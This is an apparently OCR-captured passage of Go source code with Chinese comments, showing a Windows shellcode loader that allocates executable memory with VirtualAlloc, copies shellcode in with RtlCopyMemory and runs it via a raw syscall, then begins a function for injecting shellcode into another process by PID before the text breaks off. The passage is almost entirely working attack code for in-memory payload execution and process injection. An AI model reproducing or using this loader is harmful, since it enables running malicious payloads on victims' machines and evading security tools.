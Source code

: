 ```
	kernel32 := windows.NewLazySystemDLL("kernel32")
	// 使用 NewLazySystemDLL 函数创建 ntdll 对象，用于访问 ntdll.dll 中的函数
	ntdll := windows.NewLazySystemDLL("ntdll.dll")

	// 通过 kernel32 对象的 NewProc 方法获取 VirtualAlloc 函数的指针
	VirtualAlloc := kernel32.NewProc("VirtualAlloc")
	// 通过 ntdll 对象的 NewProc 方法获取 RtlCopyMemory 函数的指针
	RtlCopyMemory := ntdll.NewProc("RtlCopyMemory")

	// 调用 VirtualAlloc 函数分配内存空间
	addr, _, errVirtualAlloc := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)

	// 检查 VirtualAlloc 函数调用是否出错
	if errVirtualAlloc.Error() != "The operation completed successfully." {
		return errors.New("Error calling VirtualAlloc:\r\n" + errVirtualAlloc.Error())
	}

	// 检查分配的内存地址是否为 0
	if addr == 0 {
		return errors.New("VirtualAlloc failed and returned 0")
	}

	// 调用 RtlCopyMemory 函数将 shellcode 复制到分配的内存空间
	_, _, errRtlCopyMemory := RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
```
在这段代码中，我们使用了 Windows API 中的一些函数来分配内存空间并将数据复制到该空间中。注释中解释了每个函数的作用以及对错误的处理。
// 检查 RtlCopyMemory 函数调用是否出错，如果出错则返回错误信息
if errRtlCopyMemory.Error() != "The operation completed successfully." {
    return errors.New("Error calling RtlCopyMemory:\r\n" + errRtlCopyMemory.Error())
}

// TODO 设置初始内存分配为可读写，并更新为可执行；当前获取到 "The parameter is incorrect." 错误
/*	_, _, errVirtualProtect := VirtualProtect.Call(uintptr(addr), uintptr(len(shellcode)), PAGE_EXECUTE)
if errVirtualProtect.Error() != "The operation completed successfully." {
    return errVirtualProtect
}*/

// 在目标进程中执行 shellcode
_, _, errSyscall := syscall.Syscall(addr, 0, 0, 0, 0)
if errSyscall != 0 {
    return errors.New("Error executing shellcode syscall:\r\n" + errSyscall.Error())
}

return nil
}

// ExecuteShellcodeRemote 在提供的目标进程中执行提供的 shellcode
func ExecuteShellcodeRemote(shellcode []byte, pid uint32) error {
// 使用 NewLazySystemDLL 函数加载 kernel32.dll 动态链接库
kernel32 := windows.NewLazySystemDLL("kernel32")
